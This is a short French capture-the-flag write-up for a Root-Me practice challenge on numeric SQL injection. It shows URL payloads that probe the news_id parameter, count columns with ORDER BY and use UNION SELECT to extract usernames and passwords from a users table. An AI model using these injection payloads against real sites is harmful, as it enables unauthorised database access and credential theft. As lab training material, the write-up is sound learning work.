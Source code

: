 # SQL injection - numeric

La page de [challenge]()

## Analyse

En naviguant sur la page, on remarque que:

* Les champs de _Login_ ne semble pas vulnérables.
* Le paramètres **news_id** l'est, en cliquant sur un des articles et en testant `http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id='#`.

## Attaque

On va commancer par chercher le nombre de colones dans la bases de données ou son stockés les articles. La première tentative nous dit qu'il n'y a que de 1 à 3 colonnes.
```
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 order by 42;
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 order by 3;
```

On utilise le nom courant de table **users** en faisant un union. On remarque que les chiffres 2 et 3 s'affiche. C'est donc ses champs qu'il va falloir modifier.
```
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,2,3 from users;
```

On utilise les noms usuelles dans les bases des données, dans notre exemple **username** et **password**.
```
http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1 union select 1,username,password from users
```
